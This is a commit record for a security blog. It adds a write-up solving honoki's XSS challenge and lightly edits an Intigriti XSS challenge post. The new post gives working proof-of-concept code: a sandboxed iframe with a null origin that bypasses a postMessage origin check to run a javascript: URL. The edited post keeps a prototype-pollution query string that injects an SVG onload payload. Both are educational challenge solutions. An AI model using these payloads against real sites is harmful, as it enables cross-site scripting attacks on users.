

Before and after one commit to martinstnv/challenges, a Jekyll site: the page built from index.html, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; the list of posts is cut into pages by our own code; some of the changed lines change nothing that is shown.

Commit message:
adding latest post

````diff
--- /dev/null
+++ b/_posts/2022-05-04-xss-challenge-honoki.md
@@ -0,0 +1,108 @@
+---
+layout: single
+title: XSS challenge By honoki
+date: 2022-05-04
+classes: wide
+tags:
+  - XSS
+  - Challenge
+  - honoki
+---
+
+How could two security features collide into a vulnerability? Read more to find out!
+
+![twitter-post](/assets/images/other/honoki/twitter-post.png)
+
+## Overview
+
+To start off, here is the complete codebase of the challenge.
+
+```
+<script>
+var originAllowed = function(o) {
+  try {
+    return new URL(o,window.location.origin).hostname === new URL(window.location).hostname;
+  } catch (e) {
+    return false;
+  }
+}
+
+window.addEventListener("message", function(e) {
+  if (originAllowed(e.origin) && e.data) {
+    try {
+      t = JSON.parse(e.data)
+    } catch (e) {}
+    if (t && "object" == typeof t && t.goto) { window.location = t.goto; }
+  }
+});
+</script>
+```
+
+The first issue here is the insecure assignment on `window.location`, which definitely leads to XSS. Here is a small PoC:
+
+![self-xss](/assets/images/other/honoki/self-xss.png)
+
+Unfortunately, this is only half of the challenge. As honoki explained, here's what needs to be done:
+
+![twitter-clarification](/assets/images/other/honoki/twitter-clarification.png)
+
+This could only be done if the origin check at `originAllowed` is somehow insecure or broken.
+
+The function returns true only if the event origin's hostname is equal to the location origin's hostname.
+
+However, the first part is very suspicious.
+
+```
+new URL(o,window.location.origin)
+```
+
+Using the location origin as an URL base is a bad idea.
+
+![twitter comment](/assets/images/other/honoki/twitter-comment.png)
+
+If I were to somehow hide my origin, then the following would happen:
+
+![null-origin](/assets/images/other/honoki/null-origin.png)
+
+If an `iframe` makes a `postMessage` call and has a `sandbox` attribute that doesn’t contain the value `allow-same-origin`, [browsers give it a “unique” origin](https://html.spec.whatwg.org/multipage/iframe-embed-object.html#the-iframe-element:concept-origin-2):
+
+> When the `sandbox` attribute is set, the content is treated as being from a unique origin, forms, scripts, and various potentially annoying APIs are disabled, links are prevented from targeting other browsing contexts, and plugins are secured. The allow-same-origin keyword causes the content to be treated as being from its real origin instead of forcing it into a unique origin.
+
+When determining the value of the Origin header to send in a cross-origin request, browsers serialize any unique origin as `null` and give the Origin header that value.
+
+## Solution
+
+I first write the `postMessage` caller like this:
+
+```
+<html>
+    <body>
+        <script>
+            var url = "https://demo.honoki.net/xss-challenge.html"
+            var pup = window.open(url)
+            setTimeout(() => {
+                pup.postMessage('{"goto": "javascript:alert(document.domain)"}', url)
+            },1500)
+        </script>
+    </body>
+</html>
+```
+
+Next, I frame the code and give it the required sandbox attributes.
+
+```
+<html>
+    <iframe
+        src="./exploit.html"
+        sandbox="allow-scripts allow-popups allow-popups-to-escape-sandbox"
+    ></iframe>
+</html>
+```
+
+The `allow-scripts`, `allow-popups` and `allow-popups-to-escape-sandbox` are required to make the `postMessage` call.
+
+Here is the result when I run it on a local server.
+
+![alert](/assets/images/other/honoki/alert.png)
+
+Thanks for reading!
--- a/_posts/2022-05-27-intigriti-may-xss-challenge-piyushthepal.md
+++ b/_posts/2022-05-27-intigriti-may-xss-challenge-piyushthepal.md
@@ -10,7 +10,7 @@
   - PiyushThePal
 ---
 
-How far can you take prototype pollution? This challenge is a great showcase which uses an unpatched jQuery plugin to exploit and bypass two types of filters.
+This challenge is a great showcase of an unpatched jQuery plugin used to exploit and bypass two types of filters.
 
 ![share](/assets/images/intigriti/2022/05/share.jpg)
 
@@ -84,9 +84,7 @@
 
 ## Solution
 
-Lets read more about the `whiteList` attribute.
-
-I found a documentation on [this GitHub link](https://github.com/leizongmin/js-xss).
+Lets read more about the `whiteList` attribute. I found a documentation on [this GitHub link](https://github.com/leizongmin/js-xss).
 
 > By specifying a `whiteList`, e.g. `{ 'tagName': [ 'attr-1', 'attr-2' ] }`. Tags and attributes not in the whitelist would be filter out.
 
@@ -102,8 +100,10 @@
 ?__proto__[whiteList][svg][]=onload&__proto__[0]=<svg+onload%3Dalert(document.domain)>&page=0
 ```
 
-Now let test this out.
+Now lets test this out.
 
 ![alert](/assets/images/intigriti/2022/05/alert.png)
 
-It works. Thanks for reading!
+It works.
+
+Thanks for reading!
````
Also changed, not shown: assets/images/other/honoki/alert.png (added), assets/images/other/honoki/null-origin.png (added), assets/images/other/honoki/self-xss.png (added), assets/images/other/honoki/twitter-clarification.png (added), assets/images/other/honoki/twitter-comment.png (added), assets/images/other/honoki/twitter-post.png (added).
